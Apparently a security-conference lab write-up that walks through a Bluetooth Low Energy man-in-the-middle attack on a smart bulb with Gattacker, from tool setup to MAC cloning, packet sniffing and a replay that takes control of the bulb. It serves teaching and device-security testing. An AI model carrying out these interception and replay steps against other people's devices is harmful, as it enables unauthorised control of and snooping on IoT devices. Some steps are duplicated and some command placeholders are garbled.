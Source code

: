 # Exploiting a Smart Bulb using MiTM  



In this article, we are going to discuss about how to take over a BLE based IoT smart bulb, sniff the communication packets and perform modification and replay based attacks all without the knowledge of either of the two devices.

## Hypothesis
Man-in-the-Middle is the approach we will be discussing first. As the name suggests this method involves the third device apart from the two connecting devices in a BLE Connection which emulates one of the devices, thus virtually taking control of the data transfer between the two devices. While in most cases the attack is done before a successful connection is established, here we perform the attack after a successful connection is established between both the devices.

Ever since BLE has been proven insecure against eavesdropping a lot of open-source MitM architectures such as Gattacker were created. Attackers do not need to trick users into performing an action to compromise or infect them, nor does a target device&#39;s Bluetooth have to pair with an attack device. The device simply has to have its Bluetooth feature turned on, which for most products is the default setting.

## What is it all about

Bluetooth Low Energy incorporates device pairing and link-layer encryption. However, a significant amount of devices do not implement these features. They either do not provide transmission security at all, or ensure it by own means in application layers. The vendors promise &quot;128-bit military grade encryption&quot; and &quot;unprecedented level of security&quot;, not willing to share technical details. We have seen such declarations before, and many times they did not withstand professional, independent evaluation and turned out to be snake oil security.

## TOOLs REQUIRED
`- Gattacker`:

The tool creates an exact copy of attacked device in Bluetooth layer, and then tricks mobile application to interpret its broadcasts and connect to it instead of the original device. At the same time, it keeps active connection to the device, and forwards to it the data exchanged with mobile application. In this way, acting as &quot;Man-in-the-Middle&quot;, it is possible to intercept and/or modify the transmitted requests and responses.

## Procedure
### Installing Gattacker and configuring it;
To install Gattacker, you will need the 8th version of node.js. This can be done using the following commands:

First, let&#39;s make sure we have curl installed:

1. Install the preset:

    ```sh
    $ sudo apt install curl
    ```

2. Once that&#39;s done, download and run the Node.js 8.x installer with the following command:

    ```diff
    curl -sL https://deb.nodesource.com/setup\_8.x | sudo -E bash
    ```

3. All that&#39;s left to do is to install (or upgrade to) the latest version of Node.js 8.x:

    ```sh
   sudo apt install nodejs
    ```

4. To install Gattacker, you will need the latest version of various Bluetooth packages. This can be done using the below command:

    ```diff
     sudo apt-get install bluetooth bluez libbluetooth-dev libudev-dev
    ```

5. Next, we need to install bleno and noble which are A Node.js modules for implementing BLE (Bluetooth Low Energy) peripherals.

    ```diff
    npm install bleno
	npm install noble
    ```

6. In case you get an error, ensure that you have correctly installed the node and npm packages earlier.

	Now install Gattacker using the command

    ```diff
    npm install gattacker
    ```

7. Next, we need to install bleno and noble which are A Node.js modules for implementing BLE (Bluetooth Low Energy) peripherals.

    ```diff
    npm install bleno
	npm install noble
    ``
    
8. Repeat the same steps on another Virtual Machine (or system) as we will be requiring two machines - one for host and one for slave.

	Once done, plug in the ble adaptor if needed and ensure that its 		plugged using ```sudo hciconfig```.

9. Navigate to gattacker folder for the further steps
We will need to edit the config.env in order to configure gattacker for our setup.

10. Next, we will need to edit the config.env in order to configure gattacker for our setup.

    Here uncomment the `NOBLE\_HCI\_DEVICE\_ID` and then replace it with the `hciX` where (X is the value which we found earlier through hciconfig) and save the file.

Now in the host machine, plug in the BLE adaptor and follow the above steps. For the config.env follow the below steps:

`- uncomment the NOBLE\_HCI\_DEVICE\_ID`
`- uncomment the BLENO\_HCI\_DEVICE\_ID`

Assign them to the `hciX`value.

Once done, in the WS\_SLAVE, replace it with the IP address of the slave machine as in the image:

Once done, save the configuration file. Now we are ready to start using Gattacker and exploit some IoT devices.

### Scanning and Storing Device Information
Open up the slave VM and launch ws-slave.j
Here the advertisement packets are captured and saved in a file.

	Now to save the service we run the command:

	`sudo node scan ;peripheral name of the bulb as saved by gattacker;`

![](https://github.com/IndrarajBiswas/SecCon-19/blob/master/ble_bulb/Images/3.png?raw=true)

The captured services and the advertisements are 	automatically updated in the slave devices so the emulation of the bulb is completed.


## Dumping and relaying the information:

Next we clone the MAC address of the original device along with the additional parameters as shown:

```yaml
sudo ./mac\_adv -a devices/f81d786312ce\_LEDBLE-786312CE.20190917115412.adv.json.adv.json -s devices/f81d786312ce.srv.json
```

Now open a new terminal and type`sudo hciconfig hciX down`,where X is the the value got earlier from hciconfig, then press enter on the other terminal.

Now open the SMARTBULB app from the phone and scan for devices.

![](https://github.com/IndrarajBiswas/SecCon-19/blob/master/ble_bulb/Images/6.png?raw=true)

Now connect to the device and change the light bulb color.

Now the RaspPi starts sniffing packets transferred between the devices and thus the packets will be captured by the RaspPi as shown in the image below: 
![](https://github.com/IndrarajBiswas/SecCon-19/blob/master/ble_bulb/Images/7.png?raw=true)

Now exit this by `ctrl + c`

Now this value is saved in the dump folder so navigate to the dump folder and open up the file:

```sudo;editor of choice;peripheral id of the bulb;.log```

Now edit it according to your needs.

Now in the host machine after the mobile and the bulb is disconnected, type in the following command to replay the attack.

`sudo node replay.js -i dump/f81d786312ce.log -p f81d786312ce -s devices/f81d786312ce.srv.json`

![](https://github.com/IndrarajBiswas/SecCon-19/blob/master/ble_bulb/Images/8.png?raw=true)

If you will look at the bulb now, the attack has successfully been executed, and we have been able to control a BLE enabled IoT Smart Light Bulb using Gattacker. If you will look at the bulb now, the attack has successfully been executed, and we have been able to control a BLE enabled IoT Smart Light Bulb using Gattacker.
